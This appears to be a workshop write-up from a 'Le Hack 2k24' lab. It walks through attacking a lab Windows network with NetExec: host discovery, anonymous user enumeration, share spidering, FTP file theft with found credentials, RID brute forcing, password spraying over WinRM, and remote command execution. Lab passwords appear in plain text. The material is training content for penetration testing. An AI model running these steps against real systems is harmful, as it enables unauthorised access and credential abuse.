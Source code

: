 ```yaml
---
description: https://www.netexec.wiki/
---
```


# 🎆 Le Hack 2k24 NetExec Workshop

<figure><img src="../.gitbook/assets/image (1204).png" alt=""><figcaption></figcaption></figure>

First we start by discovering the machines who are up:

```
netexec smb 10.0.0.0/24
```

<figure><img src="../.gitbook/assets/image (1205).png" alt=""><figcaption></figcaption></figure>

we then try enumerating users with the --users command and we find that 10.0.0.5 can be enumerated

```
nxc smb 10.0.0.5 -u '' -p '' --users
```

<figure><img src="../.gitbook/assets/image (1206).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (1207).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (1208).png" alt=""><figcaption></figcaption></figure>

```
netexec smb 10.0.0.4 -u asterix -p '' -M spider_plus --shares
```

<figure><img src="../.gitbook/assets/image (1209).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1211).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (1210).png" alt=""><figcaption><p>heftepix / BnfMQ9QI81Tz</p></figcaption></figure>

```
netexec ftp 10.0.0.7 -u heftepix -p 'BnfMQ9QI81Tz' --ls
```

<figure><img src="../.gitbook/assets/image (1212).png" alt=""><figcaption></figcaption></figure>

```
netexec ftp 10.0.0.7 -u heftepix -p 'BnfMQ9QI81Tz' --get wineremix
```

<figure><img src="../.gitbook/assets/image (1213).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (1214).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1215).png" alt=""><figcaption><p>wUSYIuhhWy!!12OL</p></figcaption></figure>

```
nxc smb 10.0.0.4 -u Guest -p '' --rid-brute
```

<figure><img src="../.gitbook/assets/image (1216).png" alt=""><figcaption></figcaption></figure>

```
nxc winrm ./targets -u rid_accounts_2 -p 'wUSYIuhhWy!!12OL' --local-auth
```

<figure><img src="../.gitbook/assets/image (1217).png" alt=""><figcaption></figcaption></figure>

```
nxc winrm 10.0.0.7 -u 'localix' -p 'wUSYIuhhWy!!12OL' --local-auth -X 'whoami'
```

<figure><img src="../.gitbook/assets/image (1218).png" alt=""><figcaption></figcaption></figure>
